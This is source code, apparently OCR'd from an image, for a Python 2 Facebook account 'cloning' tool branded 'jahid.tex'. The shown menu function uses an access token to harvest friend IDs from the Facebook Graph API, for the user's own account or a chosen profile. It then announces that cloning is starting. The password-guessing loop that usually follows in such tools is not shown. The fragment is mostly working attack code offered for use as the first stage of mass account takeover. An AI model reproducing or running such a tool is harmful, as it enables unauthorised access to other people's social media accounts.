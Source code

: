 def pilih_super():
	peak = raw_input("\n{}[1;97mChoose an Option>>> [1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────♡"
		jalan('[1;93mGetting IDs [1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("[1;96m[♡] [1;92mEnter ID[1;93m: [1;97m")
		print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────╯♡"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName[1;93m:[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[[1;94mBack[1;96m]")
			super()
		print"[1;93mGetting IDs[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "[1;91mTotal IDs[1;93m: [1;94m"+str(len(id))
	jalan('[1;92mPlease Wait[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r{}[1;91mCloning[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n{}[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡[1;94m----»"
	print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────♡"
	jalan(' [1;93m ........Cloning Start plzzz Wait.......... ')
	print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────♡"
	
